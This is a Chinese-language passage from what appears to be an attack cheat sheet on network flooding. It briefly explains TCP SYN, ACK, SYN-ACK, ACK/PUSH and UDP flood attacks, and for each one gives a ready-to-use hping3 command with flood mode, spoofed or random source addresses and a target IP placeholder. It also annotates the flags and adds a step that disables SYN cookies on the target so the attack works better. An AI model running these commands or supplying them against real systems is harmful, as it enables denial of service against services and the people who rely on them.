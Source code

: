 TCP-SYN Flood 攻击又称半开式连接攻击，每当我们进行一次标准的 TCP 连接，都会有一个三次握手的过程，而 TCP-SYN Flood 在它的实现过程中只有前两个步骤。这样，服务方会在一定时间处于等待接收请求方 ASK 消息的状态。由于一台终端可用的 TCP 连接是有限的，如果恶意攻击方快速连续地发送此类连接请求，则终端可用 TCP 连接队列很快将会阻塞，系统资源和可用带宽急剧下降，无法提供正常的网络服务，从而造成拒绝服务。
    
```bash
hping3 -a 100.37.1.2 -d 120 -S -w 64 -p 80 --flood 10.35.1.80 
-c 1000 # 发送的数据包的数量。 
-d 120 # 发送到目标机器的每个数据包的大小。单位是字节 
-S # 只发送 SYN 数据包。 
-w 64 # TCP 窗口大小。 
-p 80 # 目的地端口(80 是 WEB 端口)。你在这里可以使用任何端口。 
--flood # 尽可能快地发送数据包，不需要考虑显示入站回复。洪水攻击模式。 
--rand-source # 使用随机性的源头 IP 地址。这里的伪造的 IP 地址，只是在局域中伪造。通过路由器后，还会还原成真实的 IP 地址。 

# 如果攻击CentOS效果不明显可以先关闭CentOS中的TCP_SYNCookies 
echo 0 > /proc/sys/net/ipv4/tcp_syncookies 
# 该选项默认值是1，即启用syn cookies功能，此功能能够有效地防止syn flood攻击。
```

:::

::: details TCP ACK Flood

对于短时间内向目标发送大量的的 TCP 数据包，在处理每一个数据包的时候资源消耗殆尽导致拒绝服务。

```bash
hping3 -c 20000 -d 120 -A -w 64 -p 80 --flood --rand-source <目标IP>
```

:::

::: details TCP Syn-Ack Flood

SYN-ACK Flood 攻击正是利用了这一点，攻击者利用工具或者操纵僵尸主机，向目标终端发送大量的 SYN-ACK 报文，这些报文都属于凭空出现的第二次握手报文，终端忙于回复 RST 报文，导致资源耗尽，无法响应正常的请求。

```bash
hping3 -q -n -a <源ip> -S -s 1134 --keep -p 515 -i --faster -c 100 <目标ip>
```

:::

::: details Data ack and push flood

当与终端连接时，客户端可以通过设置 ACK 标志来请求确认已接收到信息，或者它可以通过设置 PUSH 标志强制终端处理数据包中的信息。这两个请求都要求终端执行比其他类型的请求更多的工作。

```bash
hping3 --flood --rand-source -PA -p PORT <目标ip>
```

:::

::: details UDP Flood

UDP 洪泛是一种拒绝服务攻击，其中大量的用户数据报协议（UDP）数据包被发送到目标终端，目的是压倒该设备的处理和响应能力。

```bash
hping3 -c 50000 -d 120 --udp -w 64 -p port --flood --rand-source <目标IP>
```

:::
